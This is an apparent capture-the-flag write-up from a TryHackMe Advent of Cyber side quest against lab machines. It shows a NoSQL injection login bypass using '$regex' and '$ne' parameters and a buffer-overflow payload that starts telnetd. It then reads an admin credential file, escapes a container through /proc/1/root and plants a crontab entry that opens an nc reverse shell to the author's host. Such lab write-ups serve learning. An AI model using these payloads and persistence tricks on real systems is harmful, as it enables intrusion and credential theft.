Now we know we are working with a mongoDB backend and a few other projects that some quick googling tells us that we're looking at a PHP app. We're really cranking now, but we still need to bypass those elves.

Taking a closer look at the enumeration output, we can see that the successful calls came when appended with /. One reason for this could be that Apache is doing a location based filter that has a deny <something> that we haven't quite gone past, and the php/ ending does not match rules such as *.php.

Trying these pages with appending the / results in 302 redirects back to /login.php which itself returns to our elf buddy. But that also lets us know that we are getting requests through to the PHP application, we just have to skirt around Apache.

Let's use some burp suite to really fine tune our calls:

By throwing the request into the Proxy Browser and sending them to the Reapeater, we can really dial in our calls and responses. Here's an example of the login GET page, this is a really juicy looking one.

```
GET /login.php/ HTTP/1.1
Host: 10.10.232.34:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

And knowing, from our library calls and that there are exceptions for "users" on the index page, we have a new picture to work with and a new area we can really dig into.

We'll go ahead and rule out further investigation of /vendor/ as we already got our mongo dependency and the other dependencies are for code hygiene, and we'll ignore .DS_Store as it already gave us the vendor folder. Other enumerations of the file were empty.



Testing the login prompt to see what it looks like natively we get a few new snippets of information:



We've got a PHPSESSID to track our authentication, we have an invalid username or password message, and we have further validation that we have a way around .php filtering from Apache.

Attempting to brute force this with hydra yielded nothing but wasted CPU cycles.

Throwing some payloads at it with various types of text yields some interesting errors that confirms some suspicions and gives us one more piece of data: The text is passed into mongo without any pre-parsers!


Now looking into PHP<>MongoDB SQL injection techniques, I found a great article explaining how PHP connectors work with Mongo when left to their own devices.

TL;DR: The parameters can be turned into an associative array by adding some extra characters to the parameters like so:



And in fact, this gives us a couple more pieces of data on how the data is injected.

```
commandException: unknown operator: $foo 
executeQuery('admin.users', Object(MongoDB\Driver\Query), Array)
```

Now we know that the code that calls the database is passing the query directly in, expands these fields into the operators section of the query, and it's calling the admin DB with the users collection meaning these should be some juicy results!

Mongo docs give us a lot of context as to what operators we might have available and how they might work for us if we can decode it into a DB. I spent a little time starting a MongoDB container and built a users table with some sample users in it to play with these results to test my hypothesis' on how it might work without alerting the "authorities" by blindly testing them here, but maybe that was excessive.

`regex` & `ne` look like really useful way to get in, and googling common NoSQL injections show me that these are indeed very common tools.



Note that there's no invalid password message anymore, and it now redirects somewhere...

FRIGGIN ELVES!

But if we take a look back at our diagram, and the URL we end up at, we remember the filters that are applied and can bypass them by going directly to index.php/ that was showing errors before...



BOY HOWDY! We're in.

PHPSESSID is an authenticated token for Frostbite, which should be the first user in the DB since we were okay with "anything not asdf with any password not asdf". Lets pivot to regex and see if we can get a bit more targeted. I'll link [my absolute most referenced stack overflow](https://stackoverflow.com/questions/406230/regular-expression-to-match-a-line-that-doesnt-contain-a-word) for this next part.




Alright! User#2 by doing a negative look-around regex. This will always be my favorite SO, I wish I could send that user a beer.

Lets expand this to include Snowballer and start enumerating the users... Might take a bit.

And with the following body that only a mother can love (Note that I left out the one-by-one enumeration to help write this article faster)

```bash
username[$regex]=^((?!Frostbite|Snowballer|Snow.*|.*bite|Slush.*|.*inski|Blizzard.*|.*son|Tinsel.*|.*tooth|Grinch.*|owski.*|Scrooge.*|.*stein|Sleigh.*|.*burn|Northpole.*|.*insky|.*ington|.*ova|Icicle.*|.*vic|.*opoulos).)*$&password[$ne]=asdf
```

We have our second flag.



As of the time of this writing, I'm still determined to figure out what /demo/ holds...

> Editors note: I have finished all SQs at this point and still haven't gotten into /demo/. I can't wait to read some more write ups so I can get some ideas on how to breach that path.

# Part 3 (Part 2, take 2, electric boogaloo)

In the last post we were able to use directory traversal to cheese out the credentials and flags from the service, but I wanted to include this extra bit as there's also a buffer overflow available as well. I did not personally find this overflow, but during my search for the webcam software and emux vulnerabilities I found other's exploits using Python to craft a payload with the bits already set just so. However they were all out of date Python scripts that didn't work out of the box, and since I didn't understand overflows as well as I wanted to, I decided to take a shot and see if I could reverse engineer the scripts that were reverse engineered from the web service.

Riding the coat tails of my forebearers, if you will.

As a reminder, the webcam service is an implementation of this process from therealsaumil and it's a fantastic framework for emulating IoT devices to explore.

Please note that in this article, I still do not have claim to authoritatively discuss buffer overflows, but I'd like to articulate my journey so far on my way to attempting to be authoritative enough to discuss buffer overflows. And in the interest of the author's post to a random script uploading directory, I will not share the source code but will instead just explain the process I used to debug that script.

A buffer overflow is the behavior with which data is written beyond its intended memory space, and to exploit such is to write the data in such a way that you inject a payload or access a method by pushing this data into the next executing byte.

Basically cutting in line at the 15 item only processor checkout with 100 items such that the person in front of you pays for your items. At some point this analogy breaks down, but lets continue.

Lets try blind running our script kiddy goodness.

At the very least I can tell you that this program generates a bunch of text, adds some memory location references to the end of it, adds some more text, adds a shell payload that starts TelnetD, and then finally adds it to a URI method calling one of the asp forms that were identified in the last article.

The intention appears to be using up a specific amount of memory with the asp method and then to pass a " telnetd${IFS}-l/bin/sh;# " payload. It finishes by connecting to the remote telnet port to give the user access to the shell as the webcam service user.

```bash
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/ass]
└─$ python3 easymode.py localhost 50628
/home/tokugero/thm/rooms/aoc2023/task2/ass/easymode.py:2: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet
Traceback (most recent call last):
  File "/home/tokugero/thm/rooms/aoc2023/task2/ass/easymode.py", line 72, in <module>
    buf += "BBBB"
TypeError: can't concat str to bytes
```
Ah classic Python typing errors. Lets fix those up naively (i.e. incorrectly, like I did)

The attacker is starting with a string, so he's going to get a string! Type hinting!

Fixing the bytes to all be a string and sending it across the socket seemed to get Python satisfied, but the connection is failing.
```bash
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/ass]
└─$ python3 easymode.py localhost 50628
/home/tokugero/thm/rooms/aoc2023/task2/ass/easymode.py:2: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet
*** Connection closed by remote host ***
```
In another terminal, I started up emuxgdb on the webs web server that we used to find config files before. Here's what this looks like before it crashes. Remember: This is all also hosted locally on my attack box to test these vulnerabilities before executing them on the remote system.

```bash
Program received signal SIGSEGV, Segmentation fault.
0x5c582762 in ?? ()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x400876b8  →  0x400855e8  →  0x40087200  →  0x40085e00  →  0x40086ff8  →  0x40086618  →  0x40086410  →  0x400878c0
$r1  : 0x000757b4  →  0x40083cb0  →  0x40087450  →  0x40086c88  →  0x40086e90  →  0x40086ef0  →  0x40086ca0  →  0x40086d00
$r2  : 0x5       
$r3  : 0x400876c0  →  "http://BBBBBBBBBBBB/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r4  : 0x41414141 ("AAAA"?)
$r5  : 0x41414141 ("AAAA"?)
$r6  : 0x70414141 ("AAAp"?)
$r7  : 0x0007580c  →  0x00000006
$r8  : 0x3       
$r9  : 0x40085640  →  "text/html"
$r10 : 0x0       
$r11 : 0xbefffbd0  →  0x00000000
$r12 : 0x400855e8  →  0x40087200  →  0x40085e00  →  0x40086ff8  →  0x40086618  →  0x40086410  →  0x400878c0  →  0x40087b28 ("({\b@"?)
$sp  : 0xbefff5c8  →  0x5c623078 ("x0b\"?)
$lr  : 0x5c582762 ("b'X\"?)
$pc  : 0x5c582762 ("b'X\"?)
$cpsr: [negative zero CARRY overflow interrupt fast thumb]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbefff5c8│+0x0000: 0x5c623078   ← $sp
0xbefff5cc│+0x0004: 0x40363078
0xbefff5d0│+0x0008: 0x42424227
0xbefff5d4│+0x000c: 0x43434342
0xbefff5d8│+0x0010: 0x5c276243
0xbefff5dc│+0x0014: 0x5c633978
0xbefff5e0│+0x0018: 0x5c373078
0xbefff5e4│+0x001c: 0x40363078
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:arm:ARM ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x5c582762
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, stopped 0x5c582762 in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
If you're anything like me, it's all Greek to you too. But here's some key takeaways: Those $r#'s are all memory pointers in the program, like variables. In $r3-$r6 you can clearly see random garbled text that was generated by this script. Our goal is to inject our payload in such a way that the $sp register points to the memory location of our stored process to be evaluated and executed. Let's try changing some of the commented out text in the script to see if it nudges anything.

```bash
Program received signal SIGSEGV, Segmentation fault.
0x5c582762 in ?? ()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x400876b8  →  0x400855e8  →  0x40087200  →  0x40085e00  →  0x40086ff8  →  0x40086618  →  0x40086410  →  0x400878c0
$r1  : 0x000757b4  →  0x40083c80  →  0x40087450  →  0x40086c88  →  0x40086e90  →  0x40086ef0  →  0x40086ca0  →  0x40086d00
$r2  : 0x5       
$r3  : 0x400876c0  →  "http://BBBBBBBBBBBB/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r4  : 0x41414141 ("AAAA"?)
$r5  : 0x41414141 ("AAAA"?)
$r6  : 0x70414141 ("AAAp"?)
$r7  : 0x0007580c  →  0x00000006
$r8  : 0x3       
$r9  : 0x40085640  →  "text/html"
$r10 : 0x0       
$r11 : 0xbefffbd0  →  0x00000000
$r12 : 0x400855e8  →  0x40087200  →  0x40085e00  →  0x40086ff8  →  0x40086618  →  0x40086410  →  0x400878c0  →  0x40087b28 ("({\b@"?)
$sp  : 0xbefff5c8  →  "x0b\x06@'BBBBCCCCDDDDb'\x9c\x07\x06@'EEEEb'\x98J\x[...]"
$lr  : 0x5c582762 ("b'X\"?)
$pc  : 0x5c582762 ("b'X\"?)
$cpsr: [negative zero CARRY overflow interrupt fast thumb]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbefff5c8│+0x0000: "x0b\x06@'BBBBCCCCDDDDb'\x9c\x07\x06@'EEEEb'\x98J\x[...]"    ← $sp
0xbefff5cc│+0x0004: 0x40363078
0xbefff5d0│+0x0008: 0x42424227
0xbefff5d4│+0x000c: 0x43434342
0xbefff5d8│+0x0010: 0x44444443
0xbefff5dc│+0x0014: 0x5c276244
0xbefff5e0│+0x0018: 0x5c633978
0xbefff5e4│+0x001c: 0x5c373078
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:arm:ARM ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x5c582762
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, stopped 0x5c582762 in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Again we crashed, but now we can see some of the data, and it LOOKS like hex to me! Don't judge me if you know better already.

This would have been a screen the original author might have even seen at one point as they played with sending data and subtly changing values to figure out how many bytes to send across the wire to write just the right amount to execute their payload... Someday I will go research the arcana necessary to do so as well. But for today, let's just look at what we found a bit closer.

There's a whole lot of hex in here, but there's also truncated hex and ascii @ mixed in to where I'd have expected more \x## references... perhaps the string I encoded isn't being sent properly to the application, and perhaps the original was closer than I originally thought. I'll revert my changes and switch the string to a bytestring instead and try again.

This time the debugger didn't crash, it just sat there looking stupid (as there was no break points set up yet, which is apparently a thing you can do) but I got this odd output from my script:

```bash
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/ass]
└─$ python3 easymode.py localhost 50628
/home/tokugero/thm/rooms/aoc2023/task2/ass/easymode.py:2: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet

BusyBox v1.21.1 (2013-12-19 20:11:55 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

What's a nice looking shell like you doing in a place like this? Will it work on the remote machine?

```
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/ass]
└─$ python3 easymode.py 10.10.232.34 50628
/home/tokugero/thm/rooms/aoc2023/task2/ass/easymode.py:2: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet


BusyBox v1.21.1 (2013-12-19 20:11:55 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
Yes it did! Let's confirm where we're at by checking on that admin password in a config we know exists.

# cat /var/etc/umconfig.txt
cat /var/etc/umconfig.txt
TABLE=users

ROW=0
name=admin
password=<redacted>
group=administrators
prot=0
disable=0
```
It can and it certainly does.

Thinking about this architecture from the github documentation, this is actually a QEMU device inside a docker container, with lots of pathways to make it work properly, which also means it's likely a bit vulnerable. Lets see what we can see.
```bash
# ps w l
ps w l
S   UID   PID  PPID   VSZ   RSS TTY   STIME TIME     CMD
S     0     1     0  1808   480 0:0   18:59 00:00:00 init
S     0     2     0     0     0 0:0   18:59 00:00:00 [kthreadd]
S     0     3     2     0     0 0:0   18:59 00:00:00 [ksoftirqd/0]
S     0     4     2     0     0 0:0   18:59 00:00:00 [watchdog/0]
S     0     5     2     0     0 0:0   18:59 00:00:00 [events/0]
R     0     6     2     0     0 0:0   18:59 00:00:10 [khelper]
S     0   117     2     0     0 0:0   18:59 00:00:00 [kblockd/0]
S     0   124     2     0     0 0:0   18:59 00:00:00 [kseriod]
S     0   127     2     0     0 0:0   18:59 00:00:00 [kmmcd]
S     0   152     2     0     0 0:0   18:59 00:00:00 [pdflush]
S     0   153     2     0     0 0:0   18:59 00:00:00 [pdflush]
S     0   154     2     0     0 0:0   18:59 00:00:00 [kswapd0]
S     0   155     2     0     0 0:0   18:59 00:00:00 [aio/0]
S     0   156     2     0     0 0:0   18:59 00:00:00 [nfsiod]
S     0   314     2     0     0 0:0   18:59 00:00:00 [scsi_tgtd/0]
S     0   318     2     0     0 0:0   18:59 00:00:00 [scsi_eh_0]
S     0   340     2     0     0 0:0   19:00 00:00:00 [mtdblockd]
S     0   356     2     0     0 0:0   19:00 00:00:00 [kpsmoused]
S     0   368     2     0     0 0:0   19:00 00:00:00 [hid_compat]
S     0   371     2     0     0 0:0   19:00 00:00:00 [rpciod/0]
S     0   372     2     0     0 0:0   19:00 00:00:00 [v9fs/0]
S     0   373     2     0     0 0:0   19:00 00:00:00 [v9fs-poll]
S     0   390     1  1800   424 0:0   19:00 00:00:00 /sbin/syslogd -n
S     0   394     1  1796   416 0:0   19:00 00:00:00 /sbin/klogd -n
S     0   421     1   888   328 0:0   19:00 00:00:01 dcron -L /dev/null
S     0   427     1  1068   364 0:0   19:00 00:00:00 /usr/sbin/dropbear -p 22222 -R
S     0   438     1   912   380 204:64 19:00 00:00:00 /sbin/agetty -p -L ttyAMA0 115200 vt100
S     0   439   427  1092   536 0:0   19:00 00:00:00 /usr/sbin/dropbear -p 22222 -R
S     0   440   439  2704  1080 0:0   19:00 00:00:00 {run-init} /bin/bash ./run-init
S     0   463   440   908   372 0:0   19:00 00:00:00 script -a -f -c chroot /emux/TRI227WF/rootfs /.emux/emuxinit /home/r0/workspac
S     0   464   463   892   304 pts0  19:00 00:00:00 {emuxinit} /bin/sh /.emux/emuxinit
S     0   516     1   888   272 0:0   19:00 00:00:00 syslogd
S     0   518     1   884   252 0:0   19:00 00:00:00 klogd
D     0   561     1   776   260 pts0  19:00 00:00:13 nvctl
S     0   567     1  1484   388 pts0  19:00 00:00:07 inetd_tcp
S     0   612     1   832   364 pts0  19:00 00:00:03 netmgr
S     0   618     1   732   284 pts0  19:00 00:00:00 storage
S     0   627     1  1488   396 pts0  19:00 00:00:00 nvrd
S     0   646     1   736   292 pts0  19:00 00:00:00 httpclient -c /var/config/httpclient_task15.conf
S     0   651     1   768   356 pts0  19:00 00:00:00 taskmgr
S     0   656   464   896   348 pts0  19:00 00:00:00 /bin/sh
S     0   915     1   604   316 pts0  19:00 00:00:01 ndcpd
S     0   921     1   504   228 pts0  19:00 00:00:00 ndcpd2
S     0   931     1   524   244 pts0  19:00 00:00:00 ndcpd3
S     0   948     1  1016   560 pts0  19:00 00:00:00 upnpd eth0
S     0   957   948  1016   560 pts0  19:00 00:00:00 upnpd eth0
S     0   958   957  1016   560 pts0  19:00 00:00:00 upnpd eth0
S     0   963   957  1016   560 pts0  19:00 00:00:00 upnpd eth0
S     0   969   957  1016   560 pts0  19:00 00:00:00 upnpd eth0
S     0   973   957  1016   560 pts0  19:00 00:00:00 upnpd eth0
S     0   979     1   920   440 pts0  19:00 00:00:00 onvifn
S     0   987     1  3128   424 pts0  19:00 00:00:00 onvifd
S     0   992     1  1788   716 pts0  19:00 00:00:07 ipcamd
S     0  1003   992  1788   716 pts0  19:00 00:00:00 ipcamd
Z     0  7907   421     0     0 0:0   22:53 00:00:00 [test-eth0.sh]
S     0  7908   421  1804   452 0:0   22:53 00:00:00 /bin/sh -c sleep 40; /root/test-eth0.sh >/dev/null 2>&1
S     0  7909   421  1804   452 0:0   22:53 00:00:00 /bin/sh -c sleep 50; /root/test-eth0.sh >/dev/null 2>&1
S     0  7915  7908  1796   356 0:0   22:53 00:00:00 sleep 40
S     0  7921  7909  1796   356 0:0   22:53 00:00:00 sleep 50
R     0 11088 21784   888   312 3:0   22:53 00:00:00 ps w l
S     0 21241     1   892   268 0:0   22:49 00:00:00 telnetd -l/bin/sh
S     0 21784 21241   896   360 3:0   22:49 00:00:00 /bin/sh
S     0 21971     1  1476   468 0:0   22:50 00:00:00 webs
```
It sure looks like a lot more stuff is running in here than one might expect, maybe this means there's pollution of the PID namespace. Let's see if we can see anything that the PIDs might also be able to see. Remember: We can always confirm our findings by looking at the contents of the local container we spun up earlier.

```sh
# pwd
pwd
/proc/1

# ls root
ls root
bin         etc         lib32       media       proc        sbin        usr
dev         home        linuxrc     mnt         root        sys         var
emux        lib         lost+found  opt         run         tmp

# ls /    
ls /
bin   dev   etc   home  lib   proc  root  sbin  sys   tmp   usr   var
Ho ho ho, look what we have here, a root folder that's different than the webcam root folder.

A classic go-to is to use a service script that's already being run with elevated privileges to start a reverse shell with those privileges. Only way to see if we can is to try!

# ls /proc/1/root/usr/bin | grep nc
fincore
nc
rsync
truncate
uuencode
We even have a nice copy of nc right here on that box, now for somewhere to plug it...

# pwd
pwd
/proc/1/root/etc/crontabs
# cat root
cat root
* * * * * /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 10; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 20; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 30; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 40; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 50; /root/test-eth0.sh >/dev/null 2>&1
Uh yeah that will work.

# echo "* * * * * /usr/bin/nc 10.13.8.186 4444 -e /bin/sh" >> root
echo "* * * * * /usr/bin/nc 10.13.8.186 4444 -e /bin/sh" >> root
# cat root
cat root
* * * * * /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 10; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 20; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 30; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 40; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 50; /root/test-eth0.sh >/dev/null 2>&1

* * * * * /usr/bin/nc 10.13.8.186 4444 -e /bin/sh
# 
```
Now we wait...
```bash
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/emux-master]
└─$ nc -lvnp 4444      
listening on [any] 4444 ...
connect to [10.13.8.186] from (UNKNOWN) [10.10.232.34] 58730

ls
---
index.html
test-eth0.sh

ls /
---
bin
dev
emux
etc
home
lib
lib32
linuxrc
lost+found
media
mnt
opt
proc
root
run
sbin
sys
tmp
usr
var

whoami
---
root
```
By golly we did it! Using the same techniques I wasn't able to break out of the container proper as of the time of this writing, but if there were a flag to be had here it would be so sweet.

Editor's note: This was apparently a great hint moving into SQ3! Well done again, THM.
It turns out that the port `23` was unused by anything, and simply `socat` forwarding to the emux QEMU nested container in case an attacker just wanted to waltz on in.

This was a great ending to this side quest and it's got me itching for more.